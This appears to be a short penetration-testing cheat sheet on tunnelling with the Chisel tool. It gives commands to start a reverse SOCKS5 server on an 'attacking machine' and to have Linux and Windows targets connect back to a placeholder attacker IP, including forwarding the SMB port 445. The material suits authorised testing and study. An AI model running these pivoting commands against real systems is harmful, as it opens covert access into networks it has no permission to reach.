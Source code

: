 Using SOCKS5

On the attacking machine run:

```bash
sudo ./chisel server -p 8002 --reverse --socks5
```

On target run:

Linux:

```bash
./chisel client <attacker_IP>:8002 R:socks
```

Windows:

```bash
chisel.exe client <attacker_IP>:8002 R:socks
```

Example of port forwarding single port:

```bash
./chisel client <attacker_IP>:8002 R:445:127.0.0.1:445
```
